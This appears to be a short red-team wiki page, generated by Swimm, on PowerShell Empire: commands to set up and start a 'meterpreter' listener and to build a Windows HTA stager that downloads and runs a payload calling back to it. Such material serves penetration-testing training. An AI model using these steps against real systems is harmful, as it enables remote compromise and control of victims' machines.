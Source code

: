 ```yaml
---
id: kneyi6y9
title: Powershell Empire 101
file_version: 1.1.3
app_version: 1.12.1
---
```


## Listener

```
// Empire commands used
?
uselistener meterpreter
info
```

<br/>

<div align="center"><img src="https://firebasestorage.googleapis.com/v0/b/swimm-dev-content/o/repositories%2FZ2l0aHViJTNBJTNBUmVkLVRlYW0tSW5mcmFzdHJ1Y3R1cmUtV2lraSUzQSUzQXVzZXJ0ZXN0aW5nLXN3aW1t%2Fb6633533-2d15-477f-a863-2e199ab77de0.png?alt=media&token=4f646ffc-c7bf-4c85-a8e2-b15120af41da" style="width:'50%'"/></div>

<br/>

Starting the listener:

```
execute
```

<br/>

<div align="center"><img src="https://firebasestorage.googleapis.com/v0/b/swimm-dev-content/o/repositories%2FZ2l0aHViJTNBJTNBUmVkLVRlYW0tSW5mcmFzdHJ1Y3R1cmUtV2lraSUzQSUzQXVzZXJ0ZXN0aW5nLXN3aW1t%2Fa58a4788-2110-46eb-aa55-ec7a6137f1ad.png?alt=media&token=2a6535f7-b53f-4438-9040-7ab7427a4544" style="width:'50%'"/></div>

<br/>

<br/>

## Stager

Stager will download and execute the final payload which will call back to the listener we set up previously - `meterpreter`\- below shows how to set it up:

```
//specify what stager to use
usestager windows/hta

//associate stager with the meterpreter listener
set Listener meterpreter

//write stager to the file
set OutFile stage.hta

//create the stager
execute
```

<br/>

<div align="center"><img src="https://firebasestorage.googleapis.com/v0/b/swimm-dev-content/o/repositories%2FZ2l0aHViJTNBJTNBUmVkLVRlYW0tSW5mcmFzdHJ1Y3R1cmUtV2lraSUzQSUzQXVzZXJ0ZXN0aW5nLXN3aW1t%2Fb48a65b8-4758-41cf-8130-e94a397830db.png?alt=media&token=7e8e483a-e8ef-4004-8e05-4a33f2e2362c" style="width:'50%'"/></div>

<br/>

This file was generated by Swimm. [Click here to view it in the app](https://swimm-web-app.web.app/repos/Z2l0aHViJTNBJTNBUmVkLVRlYW0tSW5mcmFzdHJ1Y3R1cmUtV2lraSUzQSUzQXVzZXJ0ZXN0aW5nLXN3aW1t/docs/kneyi6y9).
